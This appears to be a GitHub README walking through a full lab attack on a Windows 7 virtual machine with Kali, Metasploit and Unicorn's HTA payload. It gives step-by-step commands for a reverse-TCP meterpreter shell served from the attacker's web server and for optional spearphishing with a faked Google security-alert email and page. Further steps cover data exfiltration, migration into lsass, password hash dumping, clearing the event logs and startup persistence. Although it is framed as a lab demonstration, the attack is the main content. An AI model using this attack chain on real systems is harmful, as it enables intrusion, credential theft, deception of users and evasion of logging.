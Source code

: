# Unicorn Demo 
I have built this demonstrate attacking a Windows 7 machine using Metasploit and Unicorn's HTA attack.  

## Environment Details

Kali Linux https://www.kali.org/downloads/  
Unicorn https://github.com/trustedsec/unicorn  
Windows 7 ISO en_windows_7_professional_with_sp1_x64_dvd_u_676939.iso https://the-eye.eu/public/MSDN/Windows%207/  
VMware Fusion 11.5 on MacOS Catalina 10.15.2. VirtualBox is a good alternative. 
VMware Fusion 10 had display issues with MacOS Catalina  
**I would NOT reccomend AWS/Azure/GCP as they may detect these activities as malicious** 

## Kali Setup

Download and install the latest Kali Linux 64-Bit Image https://www.kali.org/downloads/  
Once your VM is up and running, login and prepare Metasploit, Apache, and Postgresql for use.

```
apt update  
apt upgrade  
systemctl enable postgresql  
systemctl enable apache2  
systemctl start postgresql  
systemctl start apache2  
msfconsole  
exit
```
Those steps will update Kali, enable postgresql and apache to start automatically, and initiliaze your Metasploit database.

## Windows 7 Setup
 
Install Window 7s. My testing was done as a trial installation. 
During install I created an administrator account named "admin". If you use a different login you will need to make changes later on.  
If you are testing against an AV solution, ensure your policies are in "Detect Only" mode.  
Upgrade Internet Explorer to version 11 by downloading to your host system and then dragging the exe into your VM  
    Note that Windows 7 lacks the appropriate certificates to browse https sites without this update https://go.microsoft.com/fwlink/?LinkId=324629
Disable UAC. You can do this numerous ways.


## Unicorn Setup

Here I will show you how to grab your IP address, configure Unicorn, and modify options.  
Make note of your IP Address and replace my sample with your IP.  

```
ifconfig 
cd /opt
git clone https://github.com/trustedsec/unicorn.git
cd /opt/unicorn
python unicorn.py windows/meterpreter/reverse_tcp 172.16.105.131 4444 hta
```

If you are not familiar with vi here is a quick guide. https://www.thegeekdiary.com/basic-vi-commands-cheat-sheet/  
Use vi or your favorite text editor to modify the hta_attack/unicorn.rc file.  

```
vi hta_attack/unicorn.rc
```
In vi you can hit `i` to interact, cursor to the attributes, make your changes, hit the `esc` key, and enter `:wq` to save and quit  
Modify the following attributes and save your changes.  
```
AutoVerifySession true
AutoSystemInfo true
AutoLoadStdapi true
```
 
These steps generate the Unicorn HTA payload, copy the payload into apache, and configures the metasploit configuration to support the remaining steps.  
Review the README.md  

```
less /opt/unicorn/README.md
```

## Payload Delivery

While there are multiple ways to deliver the payload I opted to put it into Apache on my Kali VM.

```
cp hta_attack /var/www/html
cd /var/www/html/hta_attack
```

In my case the payload URL is http://172.16.105.131/hta_attack/  
You can launch this page directly and Run/Open the Launcher.hta when prompted, or you can take additional steps for delivery 

## Download JAWS

```
cd /opt
git clone https://github.com/411Hall/JAWS.git
```
'cd /opt' and 'git clone https://github.com/411Hall/JAWS.git'  
Review the README.md  

```
less /opt/JAWS/README.md
```  

## Optional - Adding delivery via spearphishing

What I did next was generate a security event warning to my Google email. I copied the email and changed the "Check Activity" URL to the payload URL.  
I also went into my Google account to the Security settings page and saved this page.  
I then edited /var/www/html/hta_attack/index.html and inserted the google code below the existing code making a slight modification to tell users to run the Security Checker tool when prompted.  
It's not perfect but its good enough to demonstrate a phishing attempt. You could clean this all up to better replicate the FROM address on the email and ensure the page looks exactly like the Google page.

## Download Unicorn Demo

I have select a few commands to run as a script in the meterpreter environment as one way to collect information.  

```
cd /opt
git clone https://github.com/wond696/unicorn-demo.git
```

Review the README.md  

```
less /opt/unicorn-demo/README.md
```  

### Unicorn Demo Assumptions

Before running the demo.rc make sure you edit the file and update the IP address to that of your Kali VM so the persistence connects back   
You can modify this however you want but I found that trying to run everything in the script dies after creating a shell and some commands cause a keyboard buffering problem, so I only do base collection in the script and upload the Launcher.hta and JAWS script.  

## Start the Metasploit listener

Move back to /opt where we will drop our collected file and start the Metasploit listener

```
cd /opt
msfconsole -r /var/www/html/hta_attack/unicorn.rc'  
```

This launches our listener using windows/meterpreter/reverse_tcp on port 4444.

## Launch the attack

Launch the attack by clicking the email link or browsing to http://172.16.105.131/hta_attack/ in Internet Explorer in your WIndows 7 VM.  
When prompted, run/open the Launcher.hta.   
This will generate a reverse tcp onto port 4444, you should see the session start.  
Once the session is connected we will interact with that session to collect information, migrate to a SYSTEM process, and clean up our activity leaving Launcher.hta to start automatically when the "admin" user logs in.

```
sessions -i
sessions -i 1
run /opt/unicorn-demo/demo.rc
```

That completes the commands in my demo.rc script. Next we will interact with the Windows shell, commands must be executed one at a time.

```
shell  
powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted 
powershell ./jaws-enum.ps1 exfil.txt
```

On your Windows 7 VM watch the C:\Users\Admin folder, when its done exfil.txt should be a little over 100k in size.  

```
exit  
download exfil.txt  
rm jaws-enum.ps1 
rm exfil.txt
run post/windows/manage/migrate
```

The last command uses meterpreter to migrate you to a new notepad.exe process.  

Next we will look for the pid of the Lsass.exe process and migrate to that.  
If the pid you see if different use the one you see.
Assuming that works we shoudl be able finish by performing a hashdump and clear the Windows Event Logs.  

```
ps  
migrate 592
hashdump
clearev
exit
```

For fun, copy/paste the hashes and see if you can convert them to plaintext in johntheripper or https://crackstation.net/.  
This step may take some additional research on your part.

## Review exlif.txt

```
less /opt/exfil.txt
```

## Results

If you have followed this precisely you should have gathered plenty of system information, have a exfil.txt file in /opt, Launcher.hta should now be persitent by being in the users Start Menu > Startup.  
Reboot your Windows 7 VM to test, it should reconnect as session 2 after you login.
